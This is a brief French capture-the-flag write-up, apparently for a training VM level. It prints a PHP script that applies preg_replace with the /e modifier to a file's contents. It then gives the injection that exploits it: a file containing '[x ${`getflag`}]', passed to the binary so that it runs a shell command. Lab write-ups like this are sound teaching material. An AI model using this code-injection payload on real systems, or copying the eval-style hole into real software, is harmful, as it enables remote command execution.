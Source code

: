 # Level06

**Apres quelques secondes on constate qu'il faut passer un fichier en parametre de l'executable et que celui-ci affiche le resultat de son execution `print $r;`*

![intermediaire.png](./intermediaire.png)

```php
#!/usr/bin/php
<?php
function y($m) {
   $m = preg_replace("/\./", " x ", $m);
   $m = preg_replace("/@/", " y", $m);
   return $m;
}
function x($y, $z) {
   $a = file_get_contents($y);
   $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
   $a = preg_replace("/\[/", "(", $a);
   $a = preg_replace("/\]/", ")", $a);
   return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

**On creer donc un script pour l'expoiter**
`echo '[x ${`getflag`}]' > /tmp/tmp`

**Puis on relance l'executable avec la commande suivante:**
`./level06 /tmp/tmp`

![finaly.png](./finaly.png)